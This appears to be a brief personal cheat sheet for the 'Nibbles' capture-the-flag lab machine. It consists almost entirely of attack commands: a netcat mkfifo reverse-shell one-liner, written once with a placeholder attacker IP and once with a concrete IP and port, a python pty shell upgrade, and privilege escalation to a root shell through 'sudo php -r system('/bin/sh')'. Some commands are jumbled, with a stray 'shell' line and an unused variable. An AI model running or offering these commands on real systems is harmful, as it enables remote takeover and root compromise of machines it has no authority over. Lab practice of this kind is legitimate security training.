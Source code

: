 ## Nibbles
<b>reverse shell</b>
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

<b>To activate shell</b>
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.97 9443 >/tmp/f

If we have user access and want to escalate privelages:
```bash
# Try sudo -l
sudo -l

# Otherwise:
shell

# Thereafter:
CMD="/bin/bash" 
sudo php -r "system('/bin/sh');"
```
